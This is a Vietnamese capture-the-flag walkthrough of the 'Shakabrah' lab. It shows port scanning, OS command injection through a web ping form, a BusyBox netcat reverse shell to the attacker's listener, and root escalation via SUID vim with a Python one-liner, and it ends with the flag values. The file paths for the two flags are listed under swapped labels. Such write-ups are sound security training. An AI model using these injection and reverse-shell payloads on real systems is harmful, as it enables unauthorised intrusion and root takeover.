# Shakabrah





**Target:** Lab này yêu cầu chúng ta khai thác chức năng ping trên ứng dụng web để thực thi lệnh và lấy shell dưới quyền `www-data`. Sau đó, lợi dụng SUID bit được gán cho `/usr/bin/vim.basic` để leo thang lên quyền `root` và tìm hai file flag `local.txt`, `proof.txt`.

## 1. Recon & Vulnerability Assessment

Đầu tiên, mình dùng `nmap` để rà quét toàn bộ cổng và thu thập thông tin dịch vụ trên máy mục tiêu:

```bash
nmap -sCV -p- -sS -T4 --open -n --min-rate 500 <IP_Target>
```


> Kết quả cho thấy máy mục tiêu đang mở cổng **22** và **80**.

Truy cập `http://<IP_Target>` qua trình duyệt, mình thấy ứng dụng web cung cấp chức năng ping đến địa chỉ IP do người dùng nhập vào.



Mình thử ping đến IP máy của mình và thấy chức năng hoạt động.





## 2. Initial Access

### Khai thác chức năng ping để lấy Reverse Shell

Dựa vào **`Lab Description`** thì có thể thấy bài này mình sẽ dùng `OS Command Injection`.

Đầu tiên mình sẽ thử với lệnh id.

```bash
ping <Your_IP> ; id
```



 > Ở dòng cuối xuất hiện kết quả của lệnh `id` ⇒ OS Command Injection

Tiếp theo, mình thử chèn lệnh Netcat sử dụng tùy chọn `-e /bin/bash`. Lệnh có chạy nhưng không tạo được kết nối shell về máy Kali. 



Mình chuyển sang payload sử dụng **BusyBox Netcat**.

1. Trên máy Kali, mình mở listener ở cổng `80`:

```bash
nc -nlvp 80
```

2. Sau đó, mình nhập payload sau vào chức năng ping. Dấu `;` kết thúc lệnh ping và cho phép thực thi lệnh BusyBox tiếp theo:

```bash
ping <Your_IP>; busybox nc <Your_IP> 80 -e sh
```

> Listener nhận được kết nối và mình có shell trên máy mục tiêu dưới quyền **`www-data`**.

Để phiên shell dễ thao tác hơn, mình dùng Python tạo một pseudo-terminal:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



## 3. Privilege Escalation

### Tìm file có SUID bit

Từ shell của `www-data`, mình tìm các file được gán SUID bit:

```bash
find / -perm /4000 -type f 2>/dev/null
```



Trong danh sách kết quả có **`/usr/bin/vim.basic`**. Binary này có thể được lợi dụng để thực thi lệnh với quyền hiệu lực của chủ sở hữu file.

### Exploit

Mình gõ `vi` để mở giao diện trình soạn thảo rồi `Enter` nhiều lần để vào được giao diện của Vim, sau đó nhập lệnh Python sau trong Vim:

```vim
:py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh")
```





Khi chương trình yêu cầu loại terminal, mình nhập `xterm`. Sau đó, mình dùng `id` để kiểm tra quyền của shell mới:

```bash
id
```



> Kết quả hiển thị **`euid=0(root)`**, xác nhận mình đã có shell với quyền hiệu lực của `root`.

## 4. Result

Sau khi leo thang đặc quyền, mình dùng `find` để xác định vị trí hai file flag:

```bash
find / -type f \( -name "local.txt" -o -name "proof.txt" \) 2>/dev/null
```

- `local.txt`: **/root/proof.txt**
- `proof.txt`: **/home/dylan/local.txt**

Đọc nội dung hai file flag:

```bash
cat /root/proof.txt
cat /home/dylan/local.txt
```



## 🚩 **Flags :**

- `local.txt`: **f2833c196ab6479953ee967a06a0a63d**
- `proof.txt`: **ffc93ae53329e6f4e9fa8d44c4127436**